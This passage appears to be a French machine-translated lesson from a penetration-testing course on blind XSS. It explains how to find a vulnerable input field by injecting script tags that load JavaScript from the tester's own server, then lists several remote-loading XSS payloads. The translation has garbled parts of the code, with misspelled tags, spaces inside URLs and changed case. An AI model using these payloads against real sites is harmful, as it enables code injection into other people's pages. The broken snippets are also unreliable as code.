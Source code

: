 Cependant, cela introduit deux problèmes:

1. «Comment pouvons-nous savoir quel champ spécifique est vulnérable?« Étant donné que l'un des champs peut exécuter notre code, nous ne pouvons pas savoir lequel d'entre eux a fait.
2. «Comment pouvons-nous savoir quelle charge utile XSS à utiliser?« Puisque la page peut être vulnérable, mais la charge utile peut ne pas fonctionner?

* * * * *

Chargement d'un script distant
-----------------------

Dans HTML, nous pouvons écrire du code JavaScript dans les balises `<cript>`, mais nous pouvons également inclure un script distant en fournissant son URL, comme suit:

Code: HTML

```
<script src = "http: //our_ip/script.js"> </ script>
```

Ainsi, nous pouvons l'utiliser pour exécuter un fichier JavaScript distant qui est servi sur notre machine virtuelle. Nous pouvons modifier le nom de script demandé de `script.js` au nom du champ dans lequel nous injectons, de sorte que lorsque nous obtenons la demande dans notre machine virtuelle, nous pouvons identifier le champ de saisie vulnérable qui a exécuté le script, comme suit:

Code: HTML

```
<script src = "http: // our_ip / nom d'utilisateur"> </ script>
```

Si nous obtenons une demande de «nom d'utilisateur», nous savons que le champ «Nom d'utilisateur» est vulnérable à XSS, etc. Avec cela, nous pouvons commencer à tester diverses charges utiles XSS qui chargent un script distant et voir lequel d'entre eux nous envoie une demande. Voici quelques exemples que nous pouvons utiliser à partir de [PayloadsallThethings](https://github.com/swisskyrepo/payloadsallthethings/tree/master/xss%20Injection#blind-xss):

Code: HTML
```
<script src = http: // our_ip> </ script>
'> <script src = http: // our_ip> </ script>
"> <script src = http: // our_ip> </ script>
JavaScript: eval ('var a = document.createelement (\' script \ '); a.src = \' http: // our_ip \ '; document.body.appendchild (a)')
<Script> Fonction b () {eval (this.ResponSeText)}; a = new XmlHttpRequest (); a.AddeventListener ("Load", b); a.open ("get", "// our_ip"); a; .Send (); </cript>
<cript> $. getScript ("http: // our_ip") </script>

```

Comme nous pouvons le voir, diverses charges utiles commencent par une injection comme `'>`, qui peut fonctionner ou non en fonction de la façon dont nos contributions sont traitées dans le backend. Comme mentionné précédemment dans la section «XSS Discovery», si nous avions accès au code source (c'est-à-dire dans un DOM XSS), il serait possible d'écrire avec précision la charge utile requise pour une injection réussie. C'est pourquoi Blind XSS a un taux de réussite plus élevé avec le type de vulnérabilités DOM XSS.
